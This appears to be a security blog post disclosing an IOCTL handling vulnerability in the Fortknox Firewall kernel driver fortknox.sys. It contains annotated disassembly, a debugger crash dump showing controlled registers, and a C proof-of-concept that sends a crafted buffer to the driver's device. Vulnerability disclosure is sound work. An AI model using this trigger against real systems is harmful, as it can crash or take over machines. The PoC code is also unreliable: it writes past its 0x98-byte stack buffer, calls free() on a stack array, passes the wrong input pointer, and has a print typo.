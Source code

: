 ```yaml
---
layout: post
title:  "Fortknox Firewall - IOCTL Handling Vulnerability"
date:   2018-09-19 03:39:03 +0700
categories: [security, ioctl]
---
```


Description
-----------
Fortknox Firewall prone to vulnerable with IOCTL handling vulnerability. It is found that the vulnerability could lead to code execution. 
The affected module found was the **fortknox.sys** with vulnerable IOCTL **0x8E86200C**.

Vulnerability Analysis
----------------------
Inspecting the vulnerable IOCTL code:
```
  .text:0001600D                 cmp     eax, 8E86200Ch ; vulnerable IOCTL 
  .text:00016012                 jz      short loc_1604D
```
Check input size buffer **0x98** send thru vulnerable IOCTL. It then continue for another check on **sub_150E4**.
``` 
  .text:0001604D                 cmp     ecx, 98h           ; input check here
  .text:00016053                 jnz     loc_16276
  .text:00016059                 mov     eax, [ebp+arg_4]   ; our input 
  .text:0001605C                 cmp     eax, ebx
  .text:0001605E                 jz      loc_16276          ; check for the input from IOCTL sent
  .text:00016064                 push    eax
  .text:00016065                 push    dword ptr [eax]
  .text:00016067                 call    sub_150E4
```
Vulnerable path where it failed to handle the IOCTL input **0x98**:
```
  .text:0001518D                 push    31565244h       ; Tag
  .text:00015192                 push    98h             ; NumberOfBytes
  .text:00015197                 push    edi             ; PoolType
  .text:00015198                 call    ds:ExAllocatePoolWithTag
  .text:0001519E                 mov     ebx, eax
  .text:000151A0                 cmp     ebx, edi
  .text:000151A2                 jz      short loc_1512F
  .text:000151A4                 mov     eax, [ebp+arg_4]
  .text:000151A7                 push    26h
  .text:000151A9                 mov     esi, eax
  .text:000151AB                 pop     ecx
  .text:000151AC                 mov     edi, ebx
  .text:000151AE                 rep movsd                  ; memcpy() function here
  .text:000151B0                 mov     eax, [eax+90h]
  .text:000151B6                 test    eax, eax
  .text:000151B8                 jz      short loc_151F6
  .text:000151BA                 lea     esi, [eax+1]       ; here we can see the buffer bytes is 0x98
  .text:000151BD                 mov     cl, [eax]          ; crashed at this part and overwrite data on EAX
  .text:000151BF                 inc     eax                ; attacker can leverage this part where increase the bytes and overwrite 
                                                            ; data here for shellcode, etc.
  .text:000151C0                 test    cl, cl
  .text:000151C2                 jnz     short loc_151BD
```
Successful triggering the crash with capable control and overwrite ESI and EAX:
```
  kd> .trap 0xffffffffa13d4950
  ErrCode = 00000000
  eax=41414141 ebx=a0de6aa0 ecx=00000000 edx=0000169e esi=41414142 edi=a0de6b38
  eip=8cafd1bd esp=a13d49c4 ebp=a13d49d4 iopl=0         nv up ei pl nz na pe nc
  cs=0008  ss=0010  ds=0023  es=0023  fs=0030  gs=0000             efl=00010206
  fortknoxfw+0x51bd:
  8cafd1bd 8a08            mov     cl,byte ptr [eax]          ds:0023:41414141=??
```
  
Proof-of-Concept
----------------
To compile, use Visual Studio command prompt: ```cl.exe /nologo code.c```
```
#include <stdio.h>
#include <windows.h>

void main()
{
  ULONG   InBuf = 0;
   DWORD   dwRetbytes = 0;
  BYTE  buff[0x98];
  
  HANDLE hdev = CreateFileA("\\\\.\\fortknoxfw_ctl", GENERIC_READ | GENERIC_WRITE, 0, 0, OPEN_EXISTING, 0, NULL);
    
  if (hdev==INVALID_HANDLE_VALUE)
  {
        printf("CreateFile Failed: %d/n",GetLastError());
  }
    
  memset(buff, 'A', 0x98);
  memset(buff + 100, 'B', 4);
  memset(buff + 200, 'C', 4);

  DeviceIoControl(hdev, 0x8e86200c, &InBuf, 0x98, buff, 0x98, &dwRetbytes, NULL);
  free(buff);
}
```
